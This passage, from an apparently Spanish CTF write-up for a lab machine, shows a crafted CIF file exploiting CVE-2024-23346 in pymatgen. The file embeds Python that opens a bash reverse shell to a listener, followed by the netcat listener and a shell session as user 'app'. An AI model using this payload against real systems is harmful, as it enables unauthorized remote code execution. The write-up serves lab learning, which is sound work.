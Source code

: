    Nos copiaremos el <a href="https://github.com/9carlo6/CVE-2024-23346">código</a>.    


    ```python
        data_Example
        _cell_length_a    10.00000
        _cell_length_b    10.00000
        _cell_length_c    10.00000
        _cell_angle_alpha 90.00000
        _cell_angle_beta  90.00000
        _cell_angle_gamma 90.00000
        _symmetry_space_group_name_H-M 'P 1'
        loop_
        _atom_site_label
        _atom_site_fract_x
        _atom_site_fract_y
        _atom_site_fract_z
        _atom_site_occupancy
        
        H 0.00000 0.00000 0.00000 1
        O 0.50000 0.50000 0.50000 1
        _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.10.10/4444 0>&1\'");0,0,0'

        _space_group_magn.number_BNS  62.448
        _space_group_magn.name_BNS  "P  n'  m  a'  "

    ```
    Lo que hace este código es aplicar una reverse shell abriendo una conexión TCP a la IP que hayamos puesto en el puerto 4444 para obtener acceso a la máquina víctima.    
    
    Una vez entendido lo que hace el código, nos ponemos en escucha.    

    ```python
    nc -nlvp 4444
    listening on [any] 4444 ...
    ```    
  # Acceso a la máquina
    
    Ya hemos obtenido acceso y podemos observar que somos el usuario `app`
    
    ```python
    nc -nlvp 4444                                          
    listening on [any] 4444 ...
    connect to [10.10.16.17] from (UNKNOWN) [10.10.11.38] 38484
    sh: 0: can't access tty; job control turned off
    $ whoami
    app
    $ script /dev/null -c bash
    Script started, file is /dev/null
    app@chemistry:~$ 
    ```     
    Investigando un poco, encontramos esta ruta bastante interesante: **/home/app/instance**, 
    